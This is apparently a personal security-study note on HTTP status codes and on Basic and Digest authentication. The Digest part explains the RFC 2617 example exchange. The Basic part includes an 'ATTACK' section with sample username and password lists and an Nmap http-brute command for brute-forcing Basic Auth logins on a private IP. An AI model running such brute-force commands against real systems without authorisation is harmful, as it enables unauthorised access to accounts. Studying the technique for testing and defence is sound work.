 <h3> HTTP AUTH </h3>

<h4>[*] HTTP Response Codes</h4>
<ul>
<li><b> 1XX </b> : <i> HOLD ON </i></li>
<li><b> 2XX </b> : <i> Request Successful : Here you go </i></li>
<li><b> 3XX </b> : <i> Go There : Redrect</i></li>
<li><b> 4XX </b> : <i> Client fucked up : Client Req Error </i></li>
<li><b> 5XX </b> : <i> Server fucked up : Server Side Error </i></li>
</ul>

<h4>[*] Authenticcation </h4>
&nbsp; -> HTTP only supports 2 types of authentication.
</br>
&nbsp; &nbsp;  &nbsp; 1. <b> Basic Authentication</b>
</br>
&nbsp; &nbsp;  &nbsp; 2. <b> Digest Authentication</b>
</br>
</br>
&nbsp; 1. <b> Basic Authentication</b> 
<ul>
&nbsp; &nbsp; <li type=0>Client asks for a protected resource ,server says since it is a protected resource you need to submit username + password in order to access it, client then further re-requests the resource using the username + password combination , if the server validates the username password combination then 200 is returns or else Unauthorized page is returned(developer created) 4XX.
&nbsp; &nbsp;<li> Encoded in base64
&nbsp; &nbsp;<li> The server will respond with 401(Unauthorized) or 200(Ok).
&nbsp; &nbsp;<li> Since there is on upper limit on number of tries therefore we can easily bruteforce it.
</li></ul>
<ul>  &nbsp; &nbsp;<li> <b>ATTACK </b></li>  </ul>
&nbsp; &nbsp; &nbsp; -> Using Nmap for bruteforcing HTTP Basic Authentication</br></br>

```bash
user@PcName:~$ cat usersList.txt
admin
admin3
administrator
user
user1

user@PcName:~$ cat passwordList.txt
admin
admin3
administrator
user
user1
admin1

# executing nmap NSE script for bruteforcing

user@PcName:~$ nmap -p 80 --script http-brute --script-args 'http-brute.hostname=192.168.1.100,http-brute.method=POST,http-brute.path=/Path/to/BruteForce/onServer,userdb=./usersList.txt,passdb=./passwordList.txt' -n -v 192.168.1.100

```
</br>
&nbsp; 2. <b> Digest Authentication</b> <ul>
&nbsp; &nbsp; <li type=0> The way it works is by sending the hash of the password rather than the base64 encoding the password and sending it.
&nbsp; &nbsp; <li type=0> <a href="https://tools.ietf.org/html/rfc2617"> Refer to RFC 2617</a> for how this actually works .
&nbsp; &nbsp; <li type=0> .

```bash

         HTTP/1.1 401 Unauthorized                            # Server returned unauth on client req  
         WWW-Authenticate: Digest                             # Server returned unauth on client req
                 realm="testrealm@host.com",                  # Server returned unauth on client req        
                 qop="auth,auth-int",                         # Server returned unauth on client req
                 nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093",  # Server returned unauth on client req  
                 opaque="5ccc069c403ebaf9f0171e9517f40e41"    # Server returned unauth on client req

         # HashX : md5(username:realm:password)      # only for explaination 
         # HashY : md5(method:uri)      # only for explaination 

         Authorization: Digest username="Mufasa",             # Client sending request to server 
                 realm="testrealm@host.com",                  # Client sending request to server        
                 nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093",  # Client sending request to server            
                 uri="/dir/index.html",                       # Client sending request to server        
                 qop=auth,                                  
                 nc=00000001,                                 # Client sending request to server    
                 cnonce="0a4f113b",                           # Client sending request to server      
                 response="6629fae49393a05397450978507c4ef1", # Client sending request to server :  Created as : md5(HashX:Nonce:HashY)
                 opaque="5ccc069c403ebaf9f0171e9517f40e41"    # Client sending request to server              

## After the server has validated this request then it returns 200 else 401
```
&nbsp; &nbsp; <li type=0> .
</li>
</ul>
